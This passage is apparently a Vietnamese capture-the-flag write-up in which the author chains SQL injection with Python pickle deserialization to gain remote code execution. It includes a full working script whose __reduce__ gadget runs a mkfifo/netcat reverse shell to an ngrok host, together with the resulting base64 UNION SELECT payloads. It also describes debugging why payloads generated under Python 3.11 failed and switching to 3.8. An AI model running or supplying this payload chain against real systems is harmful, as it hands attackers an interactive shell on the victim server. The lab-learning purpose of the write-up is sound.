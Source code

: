 ```
import pickle
import base64
import requests

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

command = 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 0.tcp.ap.ngrok.io 14769 >/tmp/f' # Reverse Shell Payload Change IP/PORT

payload = base64.b64encode(pickle.dumps(PickleRCE())).decode()  # Crafting Payload

payload = f"' UNION SELECT '{payload}' --"

payload = requests.utils.requote_uri(payload)

print(payload)

```
Payload (Python 3.11.1):

`'%20UNION%20SELECT%20'gASVcAAAAAAAAACMAm50lIwGc3lzdGVtlJOUjFhybSAtZiAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAwLnRjcC5hcC5uZ3Jvay5pbyAxNDc2OSA+L3RtcC9mlIWUUpQu'%20--`

Result:

![image](https://user-images.githubusercontent.com/86275419/228025771-66aaaac1-4e36-4a26-a0f0-64747383dcea.png)

-> Fail sau nhiều lần thử sửa payload các thử mình vẫn fail mà không biết nguyên nhân lỗi từ đâu. Sau đó mình có tham khảo các write up làm theo cũng vẫn fail, lúc này mình tưởng rằng python đã update version mới và fix lỗi này nên không khai thác được nữa mà quên mất là khi build Docker thì version Python là cố định. Để chắc chắn rằng có thể do máy mình lỗi hoặc lab đang lỗi thì mình có nhờ một người ae test thử lại và người ae mình đã RCE được thành công với cách giống hệt mình đã làm bên trên. Lúc này thì mình vẫn chưa phát hiện ra vấn đề đang ở đâu, sau một lúc nghiên cứu lại thì bằng một cách thần kì nào đấy mình lên [web ide python online](https://www.online-python.com/) gen lại payload thử lại và thành công, lúc này mình đã lấy 2 payload so sánh với với nhau và phát hiện ra 2 payload cùng một code nhưng kết quả laị khác nhau, vậy thì chỉ có thể là do version:

IDE Online:

![image](https://user-images.githubusercontent.com/86275419/228031083-12ed2afb-b68b-43e1-a43d-34072193f293.png)

IDE myPC:

![image](https://user-images.githubusercontent.com/86275419/228031388-ddc9a95c-7531-41bd-805b-d591e072e756.png)

=> Python trên máy mình đang chạy version 3.11 nên lỗ hổng đã bị fix và không thể khai thác bằng cách trên, từ đoạn này mọi payload mình gen ra sẽ từ IDE online đang chạy Python version 3.8

Gen lại payload với đoạn code bên trên:

`'%20UNION%20SELECT%20'gASVcwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFhybSAtZiAvdG1wL2Y7bWtmaWZvIC90bXAvZjtjYXQgL3RtcC9mfC9iaW4vc2ggLWkgMj4mMXxuYyAwLnRjcC5hcC5uZ3Jvay5pbyAxNDc2OSA+L3RtcC9mlIWUUpQu'%20--`
